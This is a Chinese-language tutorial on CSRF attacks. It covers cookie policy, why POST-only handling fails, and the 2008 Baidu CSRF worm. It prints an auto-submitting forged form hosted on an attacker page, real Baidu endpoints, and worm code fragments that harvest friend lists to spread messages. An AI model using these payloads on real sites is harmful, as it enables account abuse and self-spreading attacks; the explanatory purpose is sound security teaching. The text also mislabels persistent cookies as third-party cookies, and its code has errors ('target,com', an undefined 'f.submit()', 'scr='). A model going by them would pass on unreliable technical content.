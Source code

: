 #CSRF

Cross Site Request Forgery


##Classic CSRF attack

![Classic CSRF attack](img/csrf_attack.png)

##浏览器的Cookie策略

攻击者通过实施CSRF攻击之所以能够成功，是因为攻击者通过用户的浏览器成功发送了Cookie的缘故。
浏览器所持有的Cookie分为两种：临时Cookie（Session Cookie）和本地Cookie（Third-party Cookie）。
Third-party Cookie可以保持登录信息到用户下次与服务器的会话。下次访问同一网站时，用户会发现不必输入用户名和密码就已经登录了。而Session Cookie在用户退出会话的时
候就被删除了。
Third-party Cookie在生成时就会被指定一个Expire值，这就是Cookie的生存周期，在这
个周期内Cookie有效，超出周期Cookie就会被清除。
在浏览网站的过程中，若是一个网站设置了Session Cookie，那么在浏览器进程的生命周期内，即使浏览器新打开了Tab页，Session Cookie也都是有效的，这样攻击者伪装来自受信任用户的请求来访问受信任的网站就如正常一般了。


##POST请求无法防范CSRF


一些人认为CSRF攻击只能由GET请求发起，只要把重要的操作改成只允许POST请求，就能防止CSRF攻击。但是对于很多网站的应用来说，一些重要操作并未严格区分GET与
POST，攻击者可以使用GET来请求表单的提交地址。
如：
    <form action=”/login” id=”login” method=”post”>    
	
	<input type=text name=”username” value=””/>    
	
	<input type=password name=”password” value=””/>    
	
	<input type=submit name=”submit” value=”submit”/>    
	
	</form>    
	
     
用户可以尝试构造一个GET请求：

` http://localhost/login?username=a&password=a `

如果服务器端已经区分了GET和POST，这样攻击者可以构造一个POST请求。
最简单的方法是在一个页面中构造一个form表单，然后使用JavaScript自动提交这个表单。
攻击者在www.attack.com/attack.html 中编写如下代码：


    <form action=”http://www.target,com/login” id=”login” method=”post”>   

    <input type=text name=”username” value=””/>      
	 
    <input type=password name=”password” value=””/>     
	 
    <input type=submit name=”submit” value=”submit”/>     
	 
    </form>     
	 
    <script>     
	 
    var a = document.getElementById(“login”);     
	 
    a.inputs[0].value = “a”;     
	 
    a.inputs[1].value = “a”;      
	 
    f.submit();     
	 
    </script>

##CSRF Worm

2008年9月，国内的安全组织80sec公布了一个百度的CSRF worm

漏洞出现在百度用户中心的发送短消息功能中：

http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn=用户账户&co=消息内容

只需要修改参数sn，即可对指定的用户发送短消息。而百度的另外一个接口则能查询出某个用户的所有好友：

http://frd.baidu.com/?ct=28&un=用户账户&cm=FriList&tn=bmABCFriList&callback=gotfriends

将两者结合起来，可以组合成一个CSRFworm——让一个百度用户查看恶意页面后，将给他的好友发送一条短消息，然后这条短消息中又包含一张图片，其地址再次指向CSRF页面，使得这些好友再次执行上一个操作。

Step 1：

     var lsURL=window.location.href;
     loU = lsURL.split(“?”);
     if(loU.length>1)
     {
      var loallPm = loU[1].split(“&”);
     ....

定义蠕虫页面服务器地址，取得？和&符号后的字符串，从URL中提取感染蠕虫的用户名和感染者好友的用户名。

Step 2:

     var gotfriends = function (x)
     {
      for(i=0;i<x[2].length;i++)
        {
          friends.push(x[2][i][1]);
        }
     }
     loadtom(‘<script scr=”http://frd.baidu.com/?ct=28&un=”+lusername+”&cm=FriList&tn=bmABCFriList&callback=gotfriends&.tmp=&1=2”></script>’);
     
通过CSRF漏洞从远程加载受害者的好友tom数据，根据该接口的tom数据格式，提取好友数据为蠕虫的传播流程做准备。

Step 3：感染信息输出和消息发送的核心部分。

这个蠕虫很好地展示了CSRF的破坏性--即使没有XSS漏洞，仅仅依靠CSRF，也能够发起大规模蠕虫攻击。
